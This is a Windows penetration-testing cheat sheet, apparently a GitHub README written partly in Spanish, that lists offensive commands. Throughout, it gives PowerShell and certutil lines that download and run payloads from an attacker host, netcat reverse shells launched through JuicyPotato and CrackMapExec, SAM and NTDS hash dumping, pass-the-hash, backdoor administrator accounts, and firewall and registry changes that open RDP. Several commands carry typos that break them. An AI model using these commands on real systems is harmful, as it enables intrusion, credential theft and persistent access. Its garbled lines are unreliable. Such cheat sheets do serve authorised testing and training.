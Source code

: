 # WinPTCS
Windows Pentest Cheat Sheet -  This is a basic level pentest assorted commads and snippts

___________
# Basic Windows Pentesting

## Buscando Vulnerabilidades
### searchsploit
Buscando en la DDBB de vulneravilidades con searchsploit. Probar siglas y combinaciones de nombre de servicios
```bash
searchsploit update
searchsploit <ServiceName>
searchsploit -x <XploitPath>       #Examina el exploit
searchsplot -m <XploitPath>        #Crea una copia del sploit en el directorio actual
```

## File and Data Transfering
Downloading a ps script to memory (Nishang for instance. Start /b to send the process to background
It's better to use a native process so we have to check it out.
```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<myIP>:<myPort>/ps.ps1") # 
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<myIP>:<myPort>/ps.ps1")
```
### Downloading files from cmd
```bash
certutil.exe -f -urlcache -split http://<myIP>:<myPORT>/binary.exe nbinary.exe
powershell -c "(New-Object System.Net.WebCliente).donwnloadFile('http://<myIP>:<myPORT>/binary.exe', 'C:\Windows\Tasks\binary.exe')
powershell Invoke-WebRequest "http://<myIP>:<myPORT>/binary.exe" -OutFile "C:\Windows\Tasks\binary.exe"
iwr -uri http://10.10.14.8/nc.exe -OutFile nc.exe
```
### Downloading files with SAMBA
```bash
impacket-smbserver smbFolder $(pwd) -smb2support   #En mi maquina
```
Creamos un recurso compartido y copiamos
```posh
New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\<myIP>\smbFolder    #En PowerShell
dir SharedFolder:\
copy SharedFolder:\binary.exe C:\Windows\Tasks\binary.exe
copy localFile.txt \\<myIP>\smbFolder\localFile.txt
```
## Reconocimeinto y busqueda de exploits
Hacemos git clone a PowerSploit y dentro del modulo/carpeta Privesc
```bash
batgrep "function" PowerUp.ps1   #Ver funciones del script
echo "Invoke-AllChecks" >> PowerUp.ps1
```
Descargamos el script a la maquina para que se ejecute y esperamos la salida.
### Weseng
Clonamos weseng (Windows Exploit Suggester) para buscarle vulnerabilidades a la salida de SystemInfo
```bash
python wes.py systemInfoOutput.txt
python wes.py systemInfoOutput.txt -i "Elevation of privilege"
```
### Windows-Sploit-Suggester AonCyberLabs
Clonamos Windows-Exploit-Suggester de AonCyberLabs
```zsh
python windows-exploit-suggester.py --update   #Descarga un xlsx con registros
python windows-exploit-suggester.py --database <unafecha>.xlsx --systeminfo systemInfoOutput.txt
```
Tambien utilizar WinPEAS 
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

## Persistencia y PostExplotacion
Teniendo privilegios de root, creamos un usuario y lo incluimos en el grupo de administradores
```zsh
net user maopiccoto maopiccoto123! /add
net localgroup Administrators maopiccoto /add
```
Si tenemos el **SeImpersonatePrivilege** podemos lanzar el JuicyPotato
```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd <myIP>" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

### NetTweaks && Firewall
Abriendo puertos y autorizando in/out dataTraffic en el Firewall
```posh
netsh advfirewall add rule name="Samba Port" portocol=TCP dir=in localport=445 action=allow
netsh advfirewall add rule name="Samba Port" portocol=TCP dir=in localport=445 action=allow
netstat -nat
```
### CrackMapExec
La idea es que al conectarnos regrese el mensaje Pwn3d!
```bash
cme smb <remoteIP> -u '<userName>' -p '<passwd>'
```
Lo ponemos a ejecutar comandos
```bash
cme smb <remoteIP> -u '<userName>' -p '<passwd>' -x 'whoami'
cme smb <remoteIP> -u '<userName>' -p '<passwd>' -x '\\<myIPsmbShared>\smbFolder\nc.exe -e cmd <myIP> <myPORT>'
cme smb <remoteIP> -u '<userName>' -p '<passwd>' --sam   #dumpea hashes
cme smb <remoteIP> -u '<userName>' -p '<passwd>' --ntds vss  #dupea mas hashes
```
#### PASS the HASH
Entonces podriamos hacer passTHEhash
```bash
cme smb <remoteIP> -u 'Administrator' -H 'xxxxxxx:ffffffff'
```
#### pth-winexe
Sirve para obtener una consola haciendo passTHEhash. WORKGROUP=Dominio
```bash
pth-winexe -U WORKGROUP/Administrator%<hashNTLM> //<remoteIP> cmd.exe
```
#### Obteniendo Hashes manualmente [pwdump]
Los hashes NTLM se guardan en 2 archivos: SAM & SYSTEM. Los copiamos, no podemos leerlos directamente porque siempre estan siendo utilizados por el sistema.
```bash
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```
En nuestra maquina utilizamos pwdump para revelar los hashes
```bash
pwdump SYSTEM SAM
```
### Impacket
Para saltar de un usuario privilegiado, en Administrators, a NT authority\system. Clonamos el repo y corremos install.py
```bash
psexec.py WORKGROUP/maopiccoto:maopiccoto123@<remoteIP> cmd.exe
```
Segun la respuesta del psexec tendremos que crear un recurso compartido
```posh
net share myFolder=C:\Widnows\Temp /GRANT:Administrators,FULL
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilerPolicy /t REG_DWORD /d 1 /f
```
### Habilitando el RDP
Primero creamos las reglas de firewall luego habilitamos el RDP en el registro
```posh
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=in localport=3389 action=allow
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=out localport=3389 action=allow

red add "HKEY_LOCAL_MAHCINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSconnections /t REG_DWORD /d 0 /f
```
Ya podriamos utilizar xfreerdp para conectarnos por remoto
```bash
xfreerdp /u:maopiccoto /d:WORKGROUP /p:maopiccoto123 /v:<remoteIP>
```
---
### Mapear recursos compartidos por SAMBA a nivel de red
```bash
smbmap -H <ipRemote> -u "null"
cmbclient -L <ipRemote> -N
```


